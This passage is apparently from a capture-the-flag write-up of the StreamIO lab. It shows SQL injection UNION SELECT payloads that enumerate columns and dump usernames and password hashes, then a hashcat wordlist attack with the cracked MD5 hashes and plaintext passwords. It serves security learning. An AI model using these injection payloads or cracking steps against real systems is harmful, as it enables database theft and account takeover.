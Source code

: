 `Payload: abcd' UNION SELECT 1,name,id,4,5,6 from STREAMIO..syscolumns where id in(901578250);-- -`
![](StreamIO_SQL7.png)
We got our column name with their respective IDs as well. The column `username` and `password` where we are going to focus now.

`Payload: abcd' UNION SELECT 1,concat(username,':',password),3,4,5,6 from users;-- -`
![](StreamIO_SQL8.png)

The list is too long but we got the user hash. These are all MD5 hashes. After trying to crack each of this hash with `hashcat`, I was able to cracked the following hashes for the users.
```
# hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --show
74b87337454200d4d33f80c4663dc5e5:aaaa
665a50ac9eaa781e4f7f04199db97a11:paddpadd
912ec803b2ce49e4a541068d495ab570:asdf
54c88b2dbd7b1a84012fabc1a4c73415:$hadoW
2a4e2cf22dd8fcb45adcb91be1e22ae8:$monique$1991$
ef8f3d30a856cf166fb8215aca93e9ff:%$clara
6dcd87740abb64edfa36d170f0d5450d:$3xybitch
08344b85b329d7efd611b7a7743e8a09:##123a8j8w5123##
ee0b8a0937abd60c2882eacb2f8dc49f:physics69i
b83439b16f844bd6ffe35c02fe21b3c0:!?Love?!123
f87d3c0d6c8fd686aacc6627f1f493a5:!!sabrina$
3577c47eb1e12c8ba021611e1280753c:highschoolmusical
```